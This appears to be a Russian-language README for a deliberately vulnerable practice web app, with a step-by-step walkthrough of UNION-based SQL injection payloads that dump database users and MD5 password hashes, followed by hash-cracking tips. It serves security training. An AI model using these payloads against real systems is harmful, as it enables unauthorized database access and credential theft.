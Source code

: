 # SQLInjectionsAndHashPractise
Проект для практики по SQL 
инъекциям и расшифровки паролей, 
представленных в виде хешей.

Для запуска данного проекта потребуется:

1) Любая среда разработки под Java (JDK и JRE, версия java 7 и старше)
2) БД MySQL (использовавлась версия 5.6)
3) Любой apllication server (Для запуска использовался контейнер сервлетов Tomcat версии 8.0.18)

Подготовительный этап:

Перед запуском приложения необходимо испортировать схему в БД MySQL. Файл injection_practise_db_dump.sql.

Запуск и работа с прложением:

После запуска приложения переходим на localhost с указанием порта, на который мы развернули application server (или servlet's 
container). После открытия главной страницы приложения переходим по ссылке Example 1: Login form видим форму, предназначенную
для входа пользователя. Известно, что есть пользователь с логином user и паролем password, за которого можно войти в 
приложение и убедиться в его работоспособности (сообщение "Hello, user! Log out").

Задача:

Данная форма уязвима к SQL инъекциям. С их помощью следует получить список всех пользователей и хеши их паролей.
Далее необходимо определить пароль пользователя "admin" и войти в систему как администратор.

Возможный алгоритм решения:

  SQL инъекции:
  
	1)  Проверим наличие уязвимости к SQL инъекциям. (Ввести символ ' в поле Username, чтобы увидеть сообщение об ошибке);
	2)  Написать вилидный SQL запрос (чтобы не было сообщения об SQL ошибке, например a' or '1' = ' )
	3)  Подбираем количество столбцов с помощью чисел: 
    	a' union select 1 from information_schema.TABLES where '1' = '1' or '1' = '
    	a' union select 1,2 from information_schema.TABLES where '1' = '1' or '1' = '
    	a' union select 1,2,3 from information_schema.TABLES where '1' = '1' or '1' = '
  4)  Попробовать узнать прочую информацию:
    	a' union select 1,version(),3 from users where '1' = '1' or '1' = '
    	a' union select 1,user(),3 from users where '1' = '1' or '1' = '
    	a' union select 1,database(),3 from users where '1' = '1' or '1' = '
	5)  Зная название базы узнаем названием таблиц в ней:
	    a' union SELECT 1,TABLE_NAME,3 from information_schema.TABLES WHERE TABLE_SCHEMA = 'md5practise' or '1' = '
  6)  Теперь надо узнать имена столбцов:
	    a' union SELECT 1,group_concat(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'md5practise' AND TABLE_NAME = 'users' or '1' = '
	7)  Пытаемся получить содержимое таблицы users: 
	    a' union select 1,2,3 from users where '1' = '1' or '1' = '
	8) Теперь можно достать информацию из базы о пользователе: 
    	a' union select 1,nick,3 from users where '1' = '1' or '1' = '
    	a' union select 1,username,3 from users where '1' = '1' or '1' = '
    	a' union select 1,password,3 from users where '1' = '1' or '1' = '
	
	Прочие примеры:
	
	    Можно экспериментировать с условиями:
    	a' union select 1,username,3 from users where id_user = 1 or '1' = '
    	a' union select 1,username,3 from users where id_user = 1 or true -- 
    	a' union select 1,username,3 from users where id_user = 1 or true --  
      
      Объединить несколько полей в одном:
	    a' union select 1,group_concat(concat(username, 0x3a, password)),3 from users where '1' = '1' or '1' = '
	
  Определение пароля по значению хеш функции:
  
  Для определения пароля по его хеш функции следует:
  
  1) Определить, каким алгоритмом захеширован пароль (Подсказка: в данной работе использовавлся алгоритм md5 (без "соли"))
  2) Попробовать поискать хеш по базам хешей, например: http://www.md5online.org/md5-decrypt.html 
  3) Полный перебор (Например, программа Bars: http://3.14.by/ru/md5)
  
